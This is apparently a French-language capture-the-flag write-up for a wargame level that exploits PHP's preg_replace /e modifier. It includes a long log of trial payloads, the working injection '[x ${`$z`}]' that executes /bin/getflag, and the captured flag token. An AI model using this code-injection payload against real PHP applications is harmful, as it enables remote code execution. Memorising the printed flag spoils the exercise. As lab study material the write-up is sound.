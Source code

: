 # Level 06

## Recherche
---
### Explication de "rewrite"

- [x (.*)] + "y("\2")"  

- '.' match pour tous les char > .erre == verre / terre / serre  

- '\*' donne une valeur de 0 à linfini pour le caractère précédent > toto* == toto / totoo / totooo etc  

- '.*@gmail.com' > tefroiss@gmail.com, 42@gmail.com

- le flag e éxécute ce qu'il trouve dans la regex, pour ça que ça a été enlevé de php  

- la regex va remplacer par la fonction y ce qui se trouve dans la deuxième paranthèse de la regex
---

### Cheminement

chmod u+w .

Début de la recherche, il y a un fichier php lisible et son éxécutable.  
On réécrit la fonction en mode "norme" pour pouvoir lire correctement.  
 
La fonction prend en argument y, je test donc de lancer avec y = /bin/getflag  
  
On déchiffre la regex pour plus de lisibilité (voir au dessus)
On fait les premiers tests (voir en dessous).  
Beaucoup d'heures de recherches pour comprendre ce que je peux faire pour 'hacker' le flag.   
Le truc chiant c'est que la partie replace qui prend la deuxième parenthèse de la regex, le fout obligatoirement en string, donc tout ressort tel quel sans avoir accés.   
Il faut donc trouver la douille pour passer outre ce système. 

La réponse c'est ça : '[x ${`$z`}]'  

Le x pour la première partie inutile pour nous, $ pour la variable, qu'on imbrique dans {} et dans `` pour avoir '/bin/getflag' et non pas "/bin/getflag". Dans notre cas, le flag e va vouloir éxécuter getflag mais en tant que variable, et ne va pas y arriver.  
C'est donc grâce à l'erreur qu'on peut récuperer le flag.
On met la regex dans un fichier dans tmp, on utilise le php pour lire ce fichier qui va lui utiliser le z qui sera le getflag.

(VOIR EN BAS pour copier coller)

---
## Flag : wiok45aaoguiboiki2tuin6ub
---

### Résumé des tests du dernier jour

~$ echo "[x ]" > /tmp/ex06 && ./level06 /tmp/ex06


~$ echo "[x .print]" > /tmp/ex06 && ./level06 /tmp/ex06
 x print

~$ echo "[x \.print]" > /tmp/ex06 && ./level06 /tmp/ex06
\ x print

~$ echo "[x .exec90]" > /tmp/ex06 && ./level06 /tmp/ex06
 x exec90

~$ echo "[x .*]" > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
 x *

~$ echo "[x @]" > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
 y

~$ echo "[x @**]" > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
 y**

~$ echo '[x ]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag


~$ echo '[x $z]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
/bin/getflag

~$ echo "[x $z]" > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag


~$ echo '[x $z]'
[x $z]

~$ echo "[x $z]"
[x ]

~$ echo '[x $z]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
/bin/getflag

~$ echo '[x         $z]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
        /bin/getflag

~$ echo '[x        echo $z]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
       echo /bin/getflag

---

~$ echo '[x file_get_contents($z)]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
file_get_contents(/bin/getflag)

~$ echo '[x shell_exec(string $z)]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
shell_exec(string /bin/getflag)

~$ echo '[x `cat $z`]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
`cat /bin/getflag`

~$ echo '[x \`cat $z\`]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
\`cat /bin/getflag\`

~$ echo '[x \"`cat $z`\"]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
\"`cat /bin/getflag`\"

~$ echo '[x \n`cat $z`\n]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
\n`cat /bin/getflag`\n

~$ echo '[x `$z`]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
`/bin/getflag`

~$ echo '[x $z]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
/bin/getflag

~$ echo $USER
level06

~$ echo ${USER}
level06

~$ echo '[x {${z}}]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
PHP Notice:  Use of undefined constant z - assumed 'z' in /home/user/level06/level06.php(4) : regexp code on line 1
/bin/getflag

~$ echo '[x {$}z]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
PHP Parse error:  syntax error, unexpected '}', expecting T_VARIABLE or '$' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Fatal error:  preg_replace(): Failed evaluating code: 
y("{$}z") in /home/user/level06/level06.php on line 4

~$ echo '[x {${$z}}]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
PHP Notice:  Undefined variable: /bin/getflag in /home/user/level06/level06.php(4) : regexp code on line 1

~$ echo '[x {${cat $z}}]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
PHP Parse error:  syntax error, unexpected T_VARIABLE in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Fatal error:  preg_replace(): Failed evaluating code: 
y("{${cat $z}}") in /home/user/level06/level06.php on line 4

~$ echo '[x {${print $z}}]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
/bin/getflagPHP Notice:  Undefined variable: 1 in /home/user/level06/level06.php(4) : regexp code on line 1

~$ echo '[x {$`{$z}`}]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
PHP Parse error:  syntax error, unexpected '`', expecting T_VARIABLE or '$' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Fatal error:  preg_replace(): Failed evaluating code: 
y("{$`{$z}`}") in /home/user/level06/level06.php on line 4

~$ echo '[x ${`$z`}]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

---
# Sitographie

https://www.cvedetails.com/vulnerability-list/vendor_id-74/product_id-128/PHP-PHP.html 

https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.double

https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing

https://www.rafaybaloch.com/2017/06/indepth-code-execution-in-php-part-two.html

https://www.agiratech.com/php-escape-quotes-how-to-do-it-right#Double_Quoted

https://www.php.net/manual/en/function.shell-exec.php

https://www.php.net/manual/en/language.operators.execution.php

https://www.w3schools.com/php/php_regex.asp


